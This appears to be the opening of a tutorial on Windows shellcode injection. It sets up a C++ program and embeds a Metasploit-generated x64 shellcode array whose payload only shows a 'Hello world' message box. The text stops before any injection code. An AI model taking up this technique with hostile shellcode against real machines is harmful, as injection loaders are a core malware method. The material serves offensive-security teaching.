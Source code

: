 The Windows machine is going to be our target. MinGW-w64 will help us compile our code to run on Windows, and the metasploit framework will help us generating a **shellcode** to inject!

## Application (message box)

First, create a .cpp file. I'll call mine `main.cpp`.

Include the only two libraries we'll need: `Windows.h` (for Windows API) and `stdio.h`. Your code should look something like this:

```C++
#include <stdio.h>
#include <Windows.h>

int main(){
	return 0;
}
```

### Shellcode

Now we need to define an array for our shellcode. For the first test, I'll just be using a simple messagebox saying Hello World. You can use it too!

```C++
#include <stdio.h>
#include <Windows.h>

int main(){
	unsigned char shellcode[] = 
		"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
		"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
		"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
		"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
		"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
		"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
		"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
		"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
		"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
		"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
		"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
		"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
		"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
		"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
		"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
		"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x3e\x48"
		"\x8d\x8d\x26\x01\x00\x00\x41\xba\x4c\x77\x26\x07\xff\xd5"
		"\x49\xc7\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x0e\x01\x00"
		"\x00\x3e\x4c\x8d\x85\x1b\x01\x00\x00\x48\x31\xc9\x41\xba"
		"\x45\x83\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2"
		"\x56\xff\xd5\x48\x65\x6c\x6c\x6f\x20\x77\x6f\x72\x6c\x64"
		"\x21\x00\x4d\x65\x73\x73\x61\x67\x65\x42\x6f\x78\x00\x75"
		"\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00";
		
	return 0;
}
```
